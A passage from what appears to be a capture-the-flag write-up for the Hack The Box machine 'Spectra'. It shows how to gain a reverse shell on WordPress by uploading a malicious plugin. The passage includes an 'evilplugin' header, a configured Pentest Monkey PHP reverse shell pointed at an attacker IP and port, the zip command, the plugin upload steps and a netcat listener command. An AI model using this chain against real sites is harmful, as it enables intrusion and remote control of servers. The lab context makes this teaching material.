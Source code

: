 ```php
/**
 * Plugin Name: evilplugin
  * Version: 1.0
  * Author: evilauthor
  * Author URI: http://evilplugin.test.com
  * License: GPL2
  */
```

- Create another file with the desired payload. In this case, as my objective is to directly get a reverse shell, made a copy of [Pentest Monkey's PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), changing the details to my IP address and port, saving it as `exploit.php`.

```php
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.10.10';  // CHANGE THIS
$port = 4443;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```

- Compress the file as below, where the file name must be the same as the plugin header with the zip extension.

```bash
$ zip evilplugin.zip evilplugin.php exploit.php
  adding: evilplugin.php (deflated 9%)
  adding: exploit.php (deflated 59%)
```
  
- Once created, accessed the WordPress portal, authenticated with the administrative account and, from the left side, selected the options *Plugins* > *Add New* and, at the top of the page, hit the button *Upload Plugin*

![HTB Spectra - Upload evilplugin.zip](https://i.imgur.com/UlBkZNE.png){: .align-center}

- Initialize the listener according to the configured payload. In our case, I've started a `netcat` listener using the command line below

```bash
nc -lnvp 4443
```

- Selected the zip file and hit the button *Install Now*

![HTB Spectra - Installed evilplugin.zip](https://i.imgur.com/sNlvuWi.png){: .align-center}
